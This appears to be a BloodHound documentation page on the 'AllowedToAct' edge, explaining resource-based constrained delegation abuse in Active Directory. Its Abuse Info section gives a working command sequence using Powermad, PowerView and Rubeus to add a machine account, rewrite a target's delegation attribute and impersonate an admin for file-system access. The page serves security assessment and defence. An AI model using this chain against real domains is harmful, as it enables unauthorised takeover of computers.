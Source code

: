 ---
title: AllowedToAct
---
<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


This edge allows an attacker to abuse resource-based constrained delegation to compromise the target. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.

An attacker can execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket “as” this user.

One caveat is that impersonated users can not be in the “Protected Users” security group or otherwise have delegation privileges revoked. Another caveat is that the principal added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL _must_ have a service principal name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an attacker does not currently control an account with a SPN set, an attacker can abuse the default domain MachineAccountQuota settings to add a computer account that the attacker controls via the Powermad project.

**Abuse Info**

Abusing this primitive is currently possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson’s Powermad project can be used to add a new attacker-controlled computer account:
```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```bash
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```bash
Rubeus.exe hash /password:Summer2018!
```
And finally we can use Rubeus’ _s4u_ module to get a service ticket for the service name (sname) we want to “pretend” to be “admin” for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
See a video walk through of how to execute this attack here:

<iframe id="youtube-453" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for BloodHound 2.1's New Computer Takeover Attack" width="100%" height="420" src="https://www.youtube.com/embed/RUbADHcBLKg?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp;widget_referrer=https%3A%2F%2Fsupport.bloodhoundenterprise.io%2Fhc%2Fen-us%2Farticles%2FAllowedToAct&amp;rel=0&amp;showinfo=0&amp;iv_load_policy=3&amp;modestbranding=1&amp;customControls=true&amp;noCookie=false&amp;enablejsapi=1&amp;origin=https%3A%2F%2Fsupport.bloodhoundenterprise.io&amp;widgetid=1" data-gtm-yt-inspected-6="true"></iframe>

## Opsec Considerations

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the ability to send/receive traffic in the domain.

## References

* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)
